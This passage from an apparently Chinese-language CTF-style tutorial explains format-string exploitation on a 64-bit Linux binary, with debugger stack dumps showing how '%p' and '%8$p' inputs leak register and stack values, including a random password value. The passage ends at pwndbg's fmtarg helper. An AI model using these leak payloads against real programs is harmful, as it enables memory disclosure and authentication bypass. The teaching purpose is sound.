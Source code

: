 ```shell
 RSP  0x7ffce2b26c18 
 RIP  0x7f06e8184f00 
 
 #stack
rsp  0x7ffce2b26c18 -> 0x565314ac6e0e
     0x7ffce2b26c20 <- 0x0
     0x7ffce2b26c28 <- 0x300000000
     0x7ffce2b26c30 <- 0x6db2adca20d558ab
     0x7ffce2b26c38 <- 0x0
     0x7ffce2b26c40 <- 0x746f6f72 /* 'root' */
     0x7ffce2b26c48 <- 0x8000000000000006
     0x7ffce2b26c50 <- 0x0
rdi  0x7ffce2b26c60 <- '%p %p %p %p %p %p %p %p %p'
     0x7ffce2b26c68 <- ' %p %p %p %p %p %p'
     0x7ffce2b26c70 <- 'p %p %p %p'
     0x7ffce2b26c78 <- 0x7025 /* '%p' */
     0x7ffce2b26c80 <- 0x0
     0x7ffce2b26cc0 <-  0x7ffce2b26db0 
     0x7ffce2b26cc8 <- 0x9119a0b95845000
rbp  0x7ffce2b26cd0 <-  0x565314ac6e80 
     0x7ffce2b26cd8 <-  0x7f06e8141b97 
```

通过观察我们可以发现，泄露出来的数据依次为`RSI RDX RCX R8 R9 RSP+0x8 RSP+0x10 RSP+0x18`的内容，在64位系统中，函数前6个参数通过寄存器传参，对应`RSI` ~~RDI~~  `RDX RCX R8 R9`，函数不会泄露`RDI`，即格式化字符串本身的地址内容。当寄存器的内容不足以填满格式化字符串的参数时，`printf`会继续往栈上索引，从`RSP+0x8`，即`main`函数的栈基址开始读取，刚好在第8个参数泄露了位于`rsp+10h`的随机数`0x6db2adca20d558ab`。

 现在我们知道怎么计算偏移来读取任意地址的信息了，如果读取离当前`RSP`很远的信息，比如偏移了100个`%p`，可以使用`$`占位符减少输入，`$`的含义为输出对应位置的参数，比如`%8$p`输出第8个`%p`的数据：

```shell
Hi, please input your name:
root
root welcome to go home !
Oh, I also need your password:
%8$p
Your password 0x1d894b7f31fe7418 seem not ture......
Try again!
```

再康康栈上的信息，刚好对应之前讲的第8个`%p`的输出内容：

```shell
rsp  0x7ffe0fbf9cf0 -> 0x0
     0x7ffe0fbf9cf8 -> 0x300000000
     0x7ffe0fbf9d00 -> 0x1d894b7f31fe7418 //random
     0x7ffe0fbf9d08 -> 0x8000000000000006
     0x7ffe0fbf9d10 -> 0x746f6f72 /* 'root' */
     0x7ffe0fbf9d18 -> 0x0
```

`pwngbd`提供了一种方便的函数`fmtarg`，使用格式为`fmtarg addr`。在进入`printf`函数时断下，调用`fmtarg`后可以自动计算格式化参数与`addr`的偏移。`fmtarg`在计算`index`时将`RDI`也算了进去，后面会自动减一作为`%$p`的参数：
